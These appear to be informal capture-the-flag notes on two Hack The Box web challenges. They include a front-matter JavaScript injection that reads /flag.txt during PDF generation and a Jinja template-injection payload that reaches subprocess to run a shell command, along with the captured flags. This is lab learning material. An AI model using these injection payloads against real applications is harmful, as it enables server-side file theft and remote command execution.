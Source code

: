 # blinker fluids htb


examining the code we can see in the docker file

```
# Add flag
COPY flag.txt /flag.txt
```
and we see a fake flag for testing as well.

while creating pdf we see

```
                    launch_options: { args: ['--no-sandbox', '--js-flags=--noexpose_wasm,--jitless'] } 

```
https://heinandre.no/htb-cyber-apocalypse-2022/web/blinker-fluids/

first we look at the databases and imports.
we see any templating engine then we can try and inject.

while trying iframe injection I was able to inject an iframe but no flag text file still.


```
---js
{
    css: `body::before { content: "${require('fs').readFileSync('/flag.txt')}"; display: block }`,
}
---

```
HTB{int3rG4l4c7iC_r1d3_0n_bl1nk3r_flu1d5}

# templated htb

when we go to http://159.65.58.189:31882/

we can see that site is still under construction and uses jinja templates

so straight away template injection comes to mind.

but need to run dirbuster to get to any good sites.

https://ireadyoulearn.info/2021/06/19/server-side-template-injection-hack-the-box-walkthrough/

trying with /config

```
Error 404

The page '<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': None, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093}>' could not be found
```

```
{{''.__class__.__mro__[1].__subclasses__()[414]('cat%20flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
```

'HTB{t3mpl4t3s_4r3_m0r3_p0w3rfu1_th4n_u_th1nk!}



